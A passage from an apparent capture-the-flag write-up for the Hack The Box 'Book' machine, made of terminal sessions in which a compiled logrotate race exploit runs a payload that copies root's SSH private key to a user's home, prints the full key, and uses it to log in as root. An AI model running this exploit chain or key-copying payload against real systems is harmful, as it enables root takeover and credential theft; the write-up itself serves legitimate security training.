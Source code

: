 ```bash
reader@book:~$ gcc exploit.c -o exploit
reader@book:~$ nano payload
cp /root/.ssh/id_rsa /home/reader/root_id_rsa
chown reader:reader /home/reader/root_id_rsa
reader@book:~$ chmod +x payload
reader@book:~$ ./exploit -p ./payload /home/reader/backups/access.log
Waiting for rotating /home/reader/backups/access.log...
Renamed /home/reader/backups with /home/reader/backups2 and created symlink to /etc/bash_completion.d
Waiting 1 seconds before writing payload...
Done!
reader@book:~$ ls
backups  backups2  exploit  exploit.c  lse.sh  payload  root_id_rsa  user.txt
reader@book:~$ cat root_id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAsxp94IilXDxbAhMRD2PsQQ46mGrvgSPUh26lCETrWcIdNU6J
cFzQxCMM/E8UwLdD0fzUJtDgo4SUuwUmkPc6FXuLrZ+xqJaKoeu7/3WgjNBnRc7E
z6kgpwnf4GOqpvxx1R1W+atbMkkWn6Ne89ogCUarJFVMEszzuC+14Id83wWSc8uV
ZfwOR1y/Xqdu82HwoAMD3QG/gu6jER8V7zsC0ByAyTLT7VujBAP9USfqOeqza2UN
GWUqIckZ2ITbChBuTeahfH2Oni7Z3q2wXzn/0yubA8BpyzVut4Xy6ZgjpH6tlwQG
BEbULdw9d/E0ZFHN4MoNWuKtybx4iVMTBcZcyQIDAQABAoIBAQCgBcxwIEb2qSp7
KQP2J0ZAPfFWmzzQum26b75eLA3HzasBJOGhlhwlElgY2qNlKJkc9nOrFrePAfdN
PeXeYjXwWclL4MIAKjlFQPVg4v0Gs3GCKqMoEymMdUMlHoer2SPv0N4UBuldfXYM
PhCpebtj7lMdDGUC60Ha0C4FpaiJLdbpfxHase/uHvp3S/x1oMyLwMOOSOoRZZ2B
Ap+fnQEvGmp7QwfH+cJT8ggncyN+Gc17NwXrqvWhkIGnf7Bh+stJeE/sKsvG83Bi
E5ugJKIIipGpZ6ubhmZZ/Wndl8Qcf80EbUYs4oIICWCMu2401dvPMXRp7PCQmAJB
5FVQhEadAoGBAOQ2/nTQCOb2DaiFXCsZSr7NTJCSD2d3s1L6cZc95LThXLL6sWJq
mljR6pC7g17HTTfoXXM2JN9+kz5zNms/eVvO1Ot9GPYWj6TmgWnJlWpT075U3CMU
MNEzJtWyrUGbbRvm/2C8pvNSbLhmtdAg3pDsFb884OT8b4arufE7bdWHAoGBAMjo
y0+3awaLj7ILGgvukDfpK4sMvYmx4QYK2L1R6pkGX2dxa4fs/uFx45Qk79AGc55R
IV1OjFqDoq/s4jj1sChKF2+8+JUcrJMsk0WIMHNtDprI5ibYy7XfHe7oHnOUxCTS
CPrfj2jYM/VCkLTQzdOeITDDIUGG4QGUML8IbM8vAoGBAM6apuSTzetiCF1vVlDC
VfPEorMjOATgzhyqFJnqc5n5iFWUNXC2t8L/T47142mznsmleKyr8NfQnHbmEPcp
ALJH3mTO3QE0zZhpAfIGiFk5SLG/24d6aPOLjnXai5Wgozemeb5XLAGOtlR+z8x7
ZWLoCIwYDjXf/wt5fh3RQo8TAoGAJ9Da2gWDlFx8MdC5bLvuoOX41ynDNlKmQchM
g9iEIad9qMZ1hQ6WxJ8JdwaK8DMXHrz9W7yBXD7SMwNDIf6u1o04b9CHgyWXneMr
nJAM6hMm3c4KrpAwbu60w/AEeOt2o8VsOiusBB80zNpQS0VGRTYFZeCF6rKMTP/N
WU6WIckCgYBE3k00nlMiBNPBn9ZC6legIgRTb/M+WuG7DVxiRltwMoDMVIoi1oXT
ExVWHvmPJh6qYvA8WfvdPYhunyIstqHEPGn14fSl6xx3+eR3djjO6J7VFgypcQwB
yiu6RurPM+vUkQKb1omS+VqPH+Q7FiO+qeywqxSBotnLvVAiaOywUQ==
-----END RSA PRIVATE KEY-----
```

```bash
reader@book:~/backups$ echo 'test' >> access.log
```

We trigger `/usr/sbin/logrotate` by writing data to `~/backups/access.log` and the `payload` file is executed a few seconds later resulting in a copy of the `id_rsa` used by `root` and readable by `reader`.

```bash
luc@kali:~/HTB/Book$ nano root_id_rsa
-----BEGIN RSA PRIVATE KEY-----
...
-----END RSA PRIVATE KEY-----
luc@kali:~/HTB/Book$ chmod 600 root_id_rsa
luc@kali:~/HTB/Book$ ssh -i root_id_rsa root@10.10.10.176
load pubkey "root_id_rsa": invalid format
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 5.4.1-050401-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

```